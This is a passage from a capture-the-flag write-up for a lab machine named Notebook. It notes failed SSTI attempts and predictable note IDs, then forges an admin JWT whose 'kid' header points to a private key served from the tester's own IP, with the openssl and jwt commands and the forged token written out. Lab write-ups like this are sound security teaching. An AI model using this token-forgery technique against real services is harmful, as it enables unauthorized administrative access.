 ## SSTI

- There are many possible injection points for SSTI throughout the app.
- I will start from `username` & `email`
- Trying the 2 payloads from `PayloadsAllTheThings` cheatsheet in all username, email , Note Title & Note Content does not work.

<hr>

**Note :**
During testing for SSTI from multiple accounts and creating multiple notes, I noticed that `note_id` is getting incremented for each note created by any user. This means, If I have `uuid` for any other user, I can easily read their notes.

<hr>

## Playing with Cookies

### UUID
- Some initial enumeration revealed that the `uuid` cookie is not being processed in any way by the app, atleast for the current pages.
- Chaning its value, not sending it in requests does not change page response.

### Auth
- This cookie is a `jwt` token that includes `kid` header that references to a private key used to sign this token.
- Its **not an ID** but a *url/link* to where the server can find this key.
- I can try to create my own token, self-signed , with `admin_cap` set to `true` or `1`.
- In this token, I can set the `kid` header to the private key I used to sign this token, hosted on my server.

#### Generating a Self-Signed JWT

- Before creating the token, we first need to generate a set of private and public key, to sign the token.

```bash
# Generate private key (2048 or 4096 bits) 
$ openssl genrsa -out private.key 2048 

# Extract public key 
$ openssl rsa -in private.key -pubout -out public.key
```

- Next, we need to sign a token with these keys.

**Using cli tool : `jwt`**

```bash
$ apt-get install jwt
$ jwt -key private.key -alg RS256 -sign + \
-header kid='http://10.10.14.23:8000/private.key' \
-claim username=conner \
-claim emal='conner@notebook.htb' \
-claim admin_cap=1

eyJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yMzo4MDAwL3ByaXZhdGUua2V5IiwidHlwIjoiSldUIn0.eyJhZG1pbl9jYXAiOiIxIiwiZW1hbCI6ImNvbm5lckBub3RlYm9vay5odGIiLCJ1c2VybmFtZSI6ImNvbm5lciJ9.ROQotnh0wzVR09aG3jfA-0HbWzPX8Ym9rza_PRSNeFM8SzmEMrm2IJwv4tV9sYUDIzzFKr8_EFF_tIMmChzuzuLIt4wq2GsLVnwJ8_wcIrEf3f6zyj0zR3w8DzbUY9r_fxM0sccQ4cOGVw5moCojmLDW_66XY8C4Dis3hGryNBBI4sPFvK4unz4hYRrKTKucE7AJoMbfFxDuL90xf2eD6W4LFqvlSTIZW-7Ftczyzz-PxiRcQ_SP8c3Z7jsd_C7lXd95b8mjCL_KEOW9mGywwyDt_GsY2U3UbW4f77-XlvfUOuz82SCRMFbFhtmPShySLNSXpWrj2nTpWUf9eKV35w
```
